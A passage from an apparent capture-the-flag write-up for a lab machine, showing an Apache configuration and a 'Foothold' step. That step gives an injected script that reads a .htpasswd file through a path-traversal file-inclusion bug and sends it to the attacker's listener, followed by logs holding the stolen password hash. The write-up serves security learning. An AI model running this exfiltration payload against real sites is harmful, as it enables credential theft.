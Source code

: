 ```c
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

</pre>
 HTTP/1.1" 501 -
```

## Foothold

Since the `subdomain` required credentials which we didn't had at this point, we tried to read the file directly though the `Local File Inclusion (LFI)` vulnerability.

```c
<script>
fetch('http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd', { credentials: 'include' }) // Fetch the target page
    .then(response => response.text()) // Convert the response to text
    .then(data => {
        // Send the content via a GET request
        fetch('http://10.10.14.86:8000/?data=' + encodeURIComponent(data));
    });
</script>
```

```c
10.10.14.86 - - [23/Nov/2024 22:26:53] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:26:53] "GET /?data=%0A HTTP/1.1" 501 -
10.10.14.86 - - [23/Nov/2024 22:26:54] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:26:54] "GET /?data=%0A HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 22:26:59] code 501, message Unsupported method ('GET')
10.129.27.137 - - [23/Nov/2024 22:26:59] "GET /?data=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 501 -
```
